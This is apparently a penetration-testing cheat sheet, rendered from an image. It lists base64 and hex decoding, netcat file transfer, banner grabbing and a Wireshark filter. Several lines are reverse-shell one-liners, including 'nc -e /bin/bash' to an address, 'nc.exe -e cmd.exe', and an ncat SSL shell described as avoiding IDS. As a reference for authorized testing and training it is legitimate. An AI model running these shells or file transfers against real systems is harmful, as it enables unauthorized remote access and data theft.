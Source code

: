     *   Decode Base64 Encoded Values

        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`

    *   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`

*   Netcat - Read and write TCP and UDP Packets

    *   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):[https://joncraton.org/blog/46/netcat-for-windows/](http://web.archive.org/web/20171113221652/https://joncraton.org/blog/46/netcat-for-windows/)

    *   Connect to a POP3 mail server  
        `nc -nv $ip 110`

    *   Listen on TCP/UDP port  
        `nc -nlvp 4444`

    *   Connect to a netcat port  
        `nc -nv $ip 4444`

    *   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`

    *   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`

    *   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

    *   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`

        or

        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    *   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`

    *   Netcat for Banner Grabbing:

        `echo "" | nc -nv -w1 <IP Address> <Ports>`

*   Ncat - Netcat for Nmap project which provides more security avoid IDS

    *   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    *   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

*   Wireshark

    *   Show only SMTP (port 25) and ICMP traffic:

        `tcp.port eq 25 or icmp`
